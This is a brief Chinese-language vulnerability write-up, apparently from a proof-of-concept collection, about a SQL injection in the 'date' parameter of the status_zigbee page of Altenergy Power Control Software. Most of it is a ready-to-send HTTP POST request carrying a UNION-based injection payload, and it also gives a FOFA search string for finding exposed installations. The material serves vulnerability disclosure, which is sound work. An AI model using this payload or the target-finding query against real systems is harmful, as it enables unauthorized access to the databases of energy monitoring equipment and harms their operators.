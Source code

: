 # Altenergy电力系统控制软件status_zigbee存在SQL注入漏洞

Altenergy 电力系统控制软件中发现了一个被归类为严重漏洞。此漏洞影响文件 /index.php/display/status_zigbee 的 get_status_zigbee 函数。使用未知输入操纵参数 date 会导致 sql 注入漏洞。

## fofa

```javascript
title="Altenergy Power Control Software"
```

## poc

```javascript
POST /index.php/display/status_zigbee HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close

date=2024-11-06%' UNION ALL SELECT 11,CHAR(113)||CHAR(75,101,86,69,115,83,113,89,100,122,121,102,83,83,113,86,84,112,100,103,69,75,80,117,88,109,83,105,89,116,110,120,76,84,73,109,115,100,83,107)||CHAR(113,118,98,98,113),11-- wPIB
```

![image-20241122153242310](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221532381.png)